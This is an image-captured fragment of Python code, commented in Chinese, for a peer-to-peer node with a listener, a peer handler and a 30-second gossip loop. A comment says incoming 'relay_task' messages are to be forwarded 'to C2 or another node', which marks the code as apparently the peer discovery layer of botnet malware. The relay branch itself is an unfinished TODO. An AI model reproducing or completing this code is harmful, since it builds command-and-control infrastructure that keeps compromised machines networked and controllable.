 ```python

        print(f"[P2P] Node listening on port {self.listen_port}")

    def stop(self):
        self.is_running = False
        if self.server_socket:
            self.server_socket.close()

    def _listen_for_peers(self):
        """监听并处理来自其他对等节点的连接"""
        while self.is_running:
            try:
                client, addr = self.server_socket.accept()
                threading.Thread(target=self._handle_peer_connection, args=(client, addr)).start()
            except OSError:
                break # Socket closed

    def _handle_peer_connection(self, client_socket, addr):
        """处理Gossip消息或中继流量"""
        with client_socket:
            data = client_socket.recv(4096).decode()
            message = json.loads(data)
        
            if message['type'] == 'gossip':
                # 更新自己的对等节点列表
                new_peers = set(message['peers'])
                self.peers.update(new_peers)
                # 将自己的对等节点列表发送回去
                response = {'peers': list(self.peers)}
                client_socket.sendall(json.dumps(response).encode())
        
            elif message['type'] == 'relay_task':
                # TODO: 将任务中继到C2或另一个节点
                pass
            
        self.peers.add(f"{addr[0]}:{addr[1]}") # 简单地添加

    def _gossip_protocol(self):
        """定期随机选择一个对等节点并交换节点列表"""
        while self.is_running:
            if not self.peers:
                time.sleep(10)
                continue
        
            target_peer = random.choice(list(self.peers))
            try:
                host, port = target_peer.split(':')
                with socket.create_connection((host, int(port)), timeout=5) as s:
                    message = {
                        'type': 'gossip',
                        'peers': list(self.peers.union({f"127.0.0.1:{self.listen_port}"}))
                    }
                    s.sendall(json.dumps(message).encode())
                    response_data = s.recv(4096)
                    response = json.loads(response_data)
                    self.peers.update(response['peers'])
            except Exception as e:
                # 如果连接失败，从列表中移除该节点
                self.peers.remove(target_peer)
        
            time.sleep(30) # 30秒进行一次Gossip

    def get_relay_peer(self):
```